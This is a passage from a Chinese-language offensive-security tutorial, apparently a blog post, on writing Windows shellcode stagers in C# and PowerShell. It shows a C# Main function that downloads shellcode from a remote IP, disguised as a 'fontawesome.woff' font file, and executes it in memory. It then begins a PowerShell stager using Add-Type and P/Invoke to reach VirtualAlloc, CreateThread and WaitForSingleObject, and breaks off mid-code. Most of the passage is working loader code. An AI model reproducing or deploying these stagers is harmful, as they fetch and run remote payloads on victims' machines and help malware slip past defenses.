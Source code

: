 最后就是 main 函数，直接对上述两个方法进行调用

```C#
 static void Main(string[] args)
        {
            byte[] shellcode = Download("http://172.16.181.182/fontawesome.woff");
            Execute(shellcode);

            return;
        }
```

七、PowerShell Stager
-------------------

### 代码编写

同样，Powershell也不能像C#一样直接调用Win32API，只能曲线救国。使用Add-Type cmdlet，在PowerShell会话中添加一个.NET类。这样就可以在PowerShell中使用P/Invoke。

#### 01 P/Invoke

些许复杂，按逻辑一步步展开，首先找到四个关键方法的 C# 方法标识  
[pinvoke.net: VirtualAlloc (kernel32)](https://www.pinvoke.net/default.aspx/kernel32/VirtualAlloc.html)

```C#
  [DllImport("kernel32")]  
  public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
```

这里的 RtlMoveMemory 函数可由 .NET [Copy](https://learn.microsoft.com/zh-cn/dotnet/api/system.array.copy?view=net-7.0) 方法代替，该方法允许数据从一个数组中拷贝至一个内存指针中。

[pinvoke.net: CreateThread (kernel32)](https://www.pinvoke.net/default.aspx/kernel32/CreateThread.html)

```C#
  [DllImport("kernel32", CharSet = CharSet.Ansi)]  
  public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress,  
  IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
```

[pinvoke.net: WaitForSingleObject (kernel32)](https://www.pinvoke.net/default.aspx/kernel32/WaitForSingleObject.html)

```C#
    [DllImport("kernel32.dll", SetLastError=true)]  
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```

#### 02 Add-Type

使用 Add-Type

```powershell
$shell = @" 
using System;
using System.Runtime.InteropServices;
public class shell{
    [DllImport("kernel32.dll")]  
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll", CharSet = CharSet.Ansi)]  
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll", SetLastError=true)]  
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```